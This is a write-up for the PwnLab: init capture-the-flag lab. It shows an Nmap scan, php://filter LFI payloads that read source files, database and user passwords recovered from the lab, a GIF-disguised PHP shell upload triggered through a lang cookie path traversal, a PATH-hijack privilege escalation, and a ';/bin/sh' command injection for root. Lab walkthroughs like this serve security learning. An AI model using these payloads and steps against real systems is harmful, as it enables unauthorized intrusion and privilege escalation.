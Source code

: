 <h1>PwnLab: init Write-up</h1>

<h2>Nmap</h2>

```
PORT      STATE SERVICE VERSION  
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))  
111/tcp   open  rpcbind 2-4 (RPC #100000)  
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1  
49623/tcp open  status  1 (RPC #100024)
```

<h3>PORT 80</h3>

**LFI:**

```
http://192.168.56.33/?page=php://filter/convert.base64-encode/resource=index
http://192.168.56.33/?page=php://filter/convert.base64-encode/resource=upload
http://192.168.56.33/?page=php://filter/convert.base64-encode/resource=config

Decode Base64 to get the orignal file 
```

From config file got password using that connect to mysql 

```
mysql -h 192.168.56.33 -u root -p Users  -p
password  : H4u%QJ_H99

kent - Sld6WHVCSkpOeQ== 
mike - U0lmZHNURW42SQ==
kane - aVN2NVltMkdSbw== 

decode base64

user :kent 
pass :JWzXuBJJNy

user :mike
pass :SIfdsTEn6I

user :kane
pass :iSv5Ym2GRo
```


<h3>LFI to Shell :</h3>

* Upload shell 

```
GIF89a;

PASTE YOUR PHP SHELL CODE HERE
```
Save this file as shell.gif and then upload:

Check source code to see the filename and Location

* In the index.php php code i saw there is **lang** cookie using that we can call our shell ;)

Visit http://MACHINEIP and turn your burp intercept on

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/PwnLab%3A%20init/Images/burp.png)

add **lang=../../SHELLLOCATION** in cookie section 

Forward the request to get the shell (start listner before forwarding req)

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/PwnLab%3A%20init/Images/shell.png)

<h2>Privilege Escalation</h2>

Switch to **kane**, Found password earlier in mysql

In the home directory of kane there is binary file named **msgmike**

Exploting **msgmike**

On Analysing msgmike i found:

```
int main()  
{  
      system("cat /home/mike/msg.txt");  
}  
```

Its executing cat 

Steps :

1) in home directory  echo "/bin/bash" > cat 

2) chmod +x cat

3) PATH=/home/kane

4) ./msgmike

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/PwnLab%3A%20init/Images/PRIV1.png)

<h2>Privilege Escalation (root):</h2>

```
cd /home/mike
./msg2root
;/bin/sh
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/PwnLab%3A%20init/Images/flag.png)

